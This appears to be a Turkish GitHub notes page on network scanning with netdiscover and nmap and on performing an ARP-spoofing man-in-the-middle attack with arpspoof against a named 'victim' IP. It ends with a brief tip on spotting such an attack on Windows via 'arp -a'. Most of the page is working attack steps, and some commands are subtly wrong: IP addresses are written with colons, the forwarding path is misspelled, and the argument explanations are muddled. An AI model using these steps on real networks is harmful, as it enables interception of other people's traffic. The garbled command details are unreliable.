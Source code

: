 # IP ve MAC Adresi Eşleme
> Netdiscover

```netdiscover -i eth0 -r XX:XX:XX/24 -c 10``` 

* -r: eth0'daki inet'in ilk 6 hanesi
* -c: deneme sayısı

> nmap

``` nmap XX:XX.XX.0/24 ```  0 ve 24 yani tüm aralıktaki IPlere istek atar, IP ve MAC adreslerini eşleştirip ekstra bilgi verir. Atılan istekleri
karşı taraf görebilir

# MITM

* İlk olarak **arpspoof**'u indirmemiz gerekiyor onun için:
```apt install dsniff```

* ```arpspoof -i eth0 -t XX:XX:XX:XX YY:YY:YY:YY```  target'a kendimizi modem olarak tanıtıyoruz

-t: Kurban IP

YY:YY:YY:YY : Kendi IP adresimiz 

* ```arpspoof -i eth0 -t YY:YY:YY:YY XX:XX:XX:XX``` modem'e kendimizi target olarak tanıtıyoruz

-t: Kendi IP'miz
XX:XX:XX:XX : Kurban IP

* ``` echo 1 > /proc/sys/net/ipv4/ip-forward``` IP forwardlamayı etkinleştirerek **hedef pc'nin** ağdan kopmamasını sağlıyoruz

## Windows Bilgisayarımıza MITM Saldırısı Var Mı ?

Windows arama yerine ```cmd``` yazarak terminali açıyoruz ve ```arp -a``` yazarak modem ile aynı MAC adresine sahip birisi var mı görüyoruz
